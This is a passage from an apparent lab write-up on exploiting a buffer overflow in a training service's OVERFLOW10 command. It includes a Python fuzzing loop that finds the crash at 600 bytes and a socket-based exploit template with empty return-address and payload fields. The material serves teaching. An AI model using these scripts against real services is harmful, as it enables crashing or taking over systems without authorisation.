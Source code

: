 ```
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

This script sends progressively larger payloads of "A" characters to the OVERFLOW10 command until the application crashes.

Buffer overflows occur when more data is written to a buffer than it can handle. The application’s crash indicates that we have found the approximate size of the vulnerable buffer.

Now run the script to see when it will crash and we will find that it crashed at 600 bytes

![img-description](/assets/img/BOF/BOF_Fuzzing.png)
_Fuzzing_

### Crash Replication & Controlling EIP

Now create another file on your kali that we will use to exploit our application and put the following content in it:

```
import socket

ip = "10.10.112.53"
port = 1337

prefix = "OVERFLOW10 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload= ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
